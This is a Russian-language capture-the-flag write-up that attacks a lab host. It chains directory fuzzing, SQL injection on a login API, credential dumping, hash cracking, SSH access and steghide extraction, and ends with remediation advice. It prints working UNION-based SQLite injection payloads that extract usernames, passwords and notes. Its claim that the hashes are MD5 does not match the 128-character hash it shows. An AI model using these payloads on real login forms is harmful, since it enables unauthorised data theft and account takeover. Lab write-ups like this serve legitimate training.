# SQL Injection & Steganography

## Описание задачи

| Параметр | Значение |
|---|---|
| **Название** | SQL Injection & Steganography |
| **Сложность** | Medium |
| **Категория** | Web, SQL Injection, Steganography |

**Описание:** Уязвимость SQL-инъекции в API авторизации позволяет извлечь данные пользователей из базы данных SQLite. Полученные учетные данные дают доступ к SSH. Дальнейший анализ изображения с помощью стеганографии и сопоставление скрытых данных с дампом БД позволяет собрать финальный флаг.

---

## 1. Разведка и фаззинг

Первым делом проводим сканирование целевого хоста `10.113.189.121` с помощью Nmap:

```bash
sudo nmap -sC -sV -v 10.113.189.121
```

По результатам сканирования открыты порты:
*   **22/tcp** (SSH - OpenSSH 8.0)
*   **80/tcp** (HTTP - nginx 1.14.1)



При переходе по IP-адресу в браузере отдается ошибка **404 NOT FOUND**.


Поскольку корень сайта пуст, начинаем фаззить директории с помощью `ffuf`:

```bash
ffuf -w /home/user/fuzz.txt -u "http://10.113.189.121/FUZZ" -ic -c
```

В результатах фаззинга находим директорию `/info`


При переходе в найденную директорию сервер выдает сообщение: 
> *"API needs to be called with the username and password form fields fields. It has not been fully tested yet so may not be full developed and secure"*



---

## 2. Поиск и подтверждение SQL-инъекции

При анализе эндпоинта `/api/login` было замечено аномальное поведение: **один и тот же POST-запрос обрабатывается сервером по-разному**. 

В первом случае (при отправке `username=test&password=test`) сервер возвращает статус `200 OK`, заголовок `Content-Length: 3` и пустой JSON-массив `[]`:



Однако при отправке точно такого же запроса во второй раз сервер возвращает `200 OK`, но уже с другим заголовком `Content-Length: 51` и конкретным сообщением об ошибке: `"The username or password passed are not correct."`



**Вывод:** мы видим, что запросы обрабатываются разными компонентами (два сервиса за балансировщиком или микросервисная архитектура) либо имеют разное состояние. Такая неконсистентность (Differential) в ответах на идентичные запросы является явным признаком того, что за логикой стоит база данных, а значит, высока вероятность наличия SQL-инъекции.

Пробуем классическую SQL-инъекцию с оператором `OR 1=1`:

```text
username=test'+or+1=1+--+&password=test
```

Сервер успешно возвращает список пользователей (Julius, Linda, Marnie и др.), что окончательно подтверждает наличие уязвимости.



## 3. Эксплуатация: извлечение данных из БД

Определяем количество колонок в запросе. При попытке вывести 3 колонки сервер выдает ошибку **500 Internal Server Error**, а при 2 — успешно отрабатывает. Значит, в запросе **2 колонки**.



БД — SQLite. Вытаскиваем список таблиц из системной таблицы `sqlite_master`:

```text
username=test'+UNION+SELECT+1,name+FROM+sqlite_master+WHERE+type='table'--+-&password=test
```
Получаем таблицы: `notes`, `sqlite_sequence`, `users`.



### Шаг 3.1: Изучение структуры и дамп данных

Смотрим структуру таблицы `users`:

```text
username=test'+UNION+SELECT+1,sql+FROM+sqlite_master+WHERE+name='users'--+-&password=test
```



Вытаскиваем логины и пароли пользователей:

```text
username=test'+UNION+SELECT+username,password+FROM+users--+&password=test
```

Получаем учетные данные (Julius:Red, Linda:Green, Marnie:Yellow, Mary_ann:Continue, Vincent:Orange).



### Шаг 3.2: Чтение заметок

Аналогично проверяем таблицу `notes`:

```text
username=test'+UNION+SELECT+user_id,notes+FROM+notes--+&password=test
```

Находим заметку от Mary Ann, в которой сказано: 
> *"My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b3c4b099e66efe25ecca607c47dd99c43b0c01af669c90f6a14933422cf98432f645b84427343f4a11"*



Используя **CrackStation**, расшифровываем хэш. Пароль — **Experiment**.



---

## 4. Получение первого флага и стеганография

Заходим по SSH с учетными данными Мэри Энн:

```bash
ssh mary_ann@10.113.189.121
# Пароль: Experiment
```


Нашли первый флаг.



Далее читаем server_notes.txt



Теперь переходим по ссылке в браузере: `http://10.113.189.121/get_image?name=marnie` (на скриншоте изображены две женщины). Скачиваем картинку и проверяем её на наличие скрытых данных с помощью **steghide**:

```bash
steghide extract -sf mary.jpeg
```

Вводим пароль (пустой или пароль от Мэри Энн) и извлекаем файл `mary_ann.txt`.



---

## 5. Финальный флаг

В файле `mary_ann.txt` находим подсказку: 
> *"You need to find all my children and arrange in a rainbow!"* (Вам нужно найти всех моих детей и расположить их в порядке радуги).

Радуга — это последовательность цветов: **Red, Orange, Yellow, Green**.

Сопоставляем цвета из дампа базы данных с полученными кодами:
*   **Red** — `1DVsdb2uEE0k5HK4GAIZ`
*   **Orange** — `PS0Mby2jomUKLjvQ4OSw`
*   **Yellow** — `jKLNAAeCdl2J8BCRuXVX`
*   **Green** — `eVYvs6J6HKpZWPG8pfeHoNG1`

Собираем их в правильном порядке (по цветам радуги) и декодируем:
`1DVsdb2uEE0k5HK4GAIZ` + `PS0Mby2jomUKLjvQ4OSw` + `jKLNAAeCdl2J8BCRuXVX` + `eVYvs6J6HKpZWPG8pfeHoNG1`

Получаем финальный флаг: **THM{...}**



---

## Итоговая цепочка атаки

```text
Nmap-сканирование (порты 22, 80)
        ↓
Фаззинг директорий (найдена /info)
        ↓
Анализ эндпоинта /api/login (обнаружена SQLi)
        ↓
Определение количества колонок (2)
        ↓
Дамп таблиц sqlite_master (users, notes)
        ↓
Извлечение паролей и чтение заметок
        ↓
Взлом хэша через CrackStation (пароль: Experiment)
        ↓
SSH-доступ (получение первого флага)
        ↓
Стеганография в изображении (steghide)
        ↓
Сборка финального флага из цветов радуги
```

---

## Выводы и рекомендации

- **Проблема:** отсутствие параметризации SQL-запросов в API авторизации, что позволяет внедрять произвольный SQL-код через форму логина. Дополнительно — хранение паролей в виде MD5-хэшей и использование стеганографии для сокрытия данных.
- **Рекомендации по устранению:**
  - Использовать **подготовленные выражения (Prepared Statements)** для всех запросов к БД.
  - Хранить пароли в виде стойких хэшей (bcrypt, Argon2) с солью.
  - Ограничить доступ к системным таблицам (`sqlite_master`).
  - Провести аудит медиафайлов на предмет скрытых данных.
  - Внедрить WAF для блокировки классических SQLi-паттернов.
